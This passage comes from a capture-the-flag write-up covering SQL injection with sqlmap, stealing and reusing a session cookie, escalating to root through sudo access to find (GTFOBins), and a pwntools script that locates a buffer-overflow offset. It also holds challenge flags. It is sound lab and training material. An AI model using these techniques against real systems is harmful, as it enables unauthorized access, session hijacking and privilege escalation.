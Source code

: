 ```sqlmap -r sqli.req --threads=10 --dbs```

Output of our http server when user tries to connect.

![](https://i.imgur.com/prMvZ07.png)

Adding session cookie to storage

![](https://i.imgur.com/i7DsZGH.png)

Refreshing page, gives us the flag

![](https://i.imgur.com/yVWLvsw.png)

FLAG: ```245_SKILLS{G0_Cook1e_Monster}```

## Privesc

Logging into ssh with provided creds, running ```sudo -l``` to see if there's anything of interest. 
![sudo](https://i.imgur.com/xxSnf3a.png)

We can run ```find``` as root, to GTFObins.

Spawn shell with ```find``` as sudo.

![root](https://i.imgur.com/zPxFILN.png)

FLAG: ```245_SKILLS{Acc3s_All_Ar3@s}```

## Overflow

Copying vulnerable file to host box to work on.

![copy](https://i.imgur.com/V5xpNPY.png)

Python script to find offset of eip.

```python
from pwn import *

context(os='linux', arch='i386')
context.log_level= 'debug'

TARGET = './pwnme'

proc = process(TARGET)

pause()

payload = cyclic(1000)

proc.writeline(payload)
```
